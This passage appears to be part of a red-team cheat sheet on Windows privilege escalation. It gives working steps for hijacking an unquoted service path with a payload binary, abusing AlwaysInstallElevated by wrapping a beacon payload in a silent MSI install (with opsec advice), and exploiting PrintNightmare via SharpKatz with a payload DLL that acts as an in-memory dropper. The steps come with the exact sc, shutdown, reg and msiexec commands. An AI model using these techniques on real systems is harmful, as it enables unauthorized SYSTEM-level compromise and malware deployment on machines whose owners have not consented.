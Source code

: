 - 6\. Move your custom binary to the vulnerable folder and rename it \(e\.g\. move the payload "Privacy\.exe" to "C:\\Program Files \(x86\)\\Cybertron\\Privacy Drive" which is the vulnerable path for the service: "C:\\Program Files \(x86\)\\Cybertron\\Privacy Drive\\pdsvc\.exe"\) \(if the payload doesn’t run, rename it without the \.exe extention\)\. 
- 7\. Restart the vulnereable service:
	- If the user has anough privileges:
		- 1: ```sc stop <vuln-service>```
		- 2: ```sc start <vuln-service>```
	- Restart system if the vulnerable service has auto restart and the user has the “SeShutdownPrivilege”: ```shutdown /r```
- 8\. \(optional\) restore changes by deleting the custom binary from the vulnerable folder\. 

##### _AlwaysInstallElavated registry key abuse:_
The AlwaysInstallElevated is an ‘feature’ that allows the installation of software packages in privileged context by all authenticated users:
- 1\. Check set registry key \(or run SharpUp for automated check\):
    ```
    reg query HKEY_LOCAL_MACHINE\software\Policies\Microsoft\Windows\Installer
	reg query HKEY_LOCAL_MACHINE\software\Policies\Microsoft\Windows\Installer
	```
- 2\. Create \.msi installer that serves as a wrapper for an arbitrary payload executable \(e\.g\. beacon\): 
	- 1\. Create a payload \(e\.g\. beacon\.exe or HInjector\.exe\) as the payload
	- 2\. In visual studio download and install the “Installer Project” package \(go to: Extensitions > Manage Extenstions and search for: Microsoft Visual Studio Installer Project\)\. 
	- 3\. Re\-open Visual Studio, select Create a new project and search "installer"\. Select the “Setup Wizard” project, give it a name \(MSIinstaller\) and click “Create”\.
	- 4\. Keep clicking Next until you get to step 3 of 4 \(choose files to include\)\. Click Add and select the payload you just generated\. Then click Finish\.
	- 5\. Highlight the MSIinstaller project in the Solution Explorer \(right panel\) and in the Properties, change TargetPlatform from x86 to x64 \(recommended to change other parameters aswell for opsec like the “Manufacturer” attribute\)\. 
	- 6\. Now right\-click the project and select View > Custom Actions\. Right\-click Install and select Add Custom Action\. Double\-click on Application Folder, select your payload\.exe file and click OK\. In the properties section change “Run64Bit” to True\. 
	- 7\. Build project\. 
- 3\. Upload payload to target system and \(if required\) start listener on own machine
- 4\. Execute payload on target system: ```msiexec /q /n /i MSIinstaller.msi```
- 5\. Uninstall and remove the MSI: ```msiexec /q /n /uninstall MSIinstaller.msi```

##### _PrintNightmare \(CVE\-2021\-1675 | CVE\-2021\-34527\):_
This vulnerability exists due to an authorisation bypass bug in the Print Spooler service spoolsv\.exe on Windows systems, which allows authenticated remote users to install print drivers using the RPC call RpcAddPrinterDriver and specify a driver file located on a remote location\. A malicious user exploiting this could obtain SYSTEM level privileges on a Windows system running this service by injecting a malicious DLL as part of installing a print driver\.
>Recommended to use the dll as a dropper that downloads and executes the actual payload in memory\. 
- 1\. Create a custom DLL dropper and upload that DLL to the target system or host it on a share that is accessible from the target system \(check the “Payload development” section\)\.
- 2\. Run the exploit and execute the code inside the dll \([SharpKatz](https://github.com/b4rtik/SharpKatz)\): ```SharpKatz.exe --Command printnightmare --Target <current system name> --Library  C:\\users\\public\\documents\\payload.dll```
